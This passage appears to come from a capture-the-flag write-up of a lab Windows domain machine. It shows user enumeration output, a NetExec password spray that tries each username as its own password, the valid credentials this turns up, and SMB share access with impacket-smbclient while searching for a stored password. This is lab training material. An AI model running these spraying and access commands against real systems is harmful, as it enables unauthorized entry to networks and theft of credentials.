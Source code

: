 ```shell
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)
```
## Password Spraying with NetExec using Username as Password
When dealing with credentials, it's always important to test if a user is using its username as password. In this case, we can create a custom list containing the names of the users:
```shell
cat usernames.txt

Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```
And then use the list usernames.txt to carry out a password spraying attack using NetExec:
```shell
nxc smb 10.129.228.111 -u usernames.txt -p usernames.txt --continue-on-success
```

```shell
<SNIP>
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:SABatchJobs STATUS_LOGON_FAILURE 
<SNIP>
```
If we examine the NetExec results, we will see that we got valid credentials:
```shell
SABatchJobs:SABatchJobs
```
## SMB Access as SABatchJobs and finding Password inside Azure.xml
We will use the credentials of SABatchJobs and impacket-smbclient to get SMB access:
```shell
impacket-smbclient 'SABatchJobs':'SABatchJobs'@10.129.228.111
```
And display the SMB shares with the "shares" command:
```shell
# shares
ADMIN$
azure_uploads
C$
E$
IPC$
NETLOGON
SYSVOL
users$
```
After some manual enumeration, we can find a file called "azure.xml" containing a password. We can use the "mget" command to get it:
```shell
# use users$
# ls
```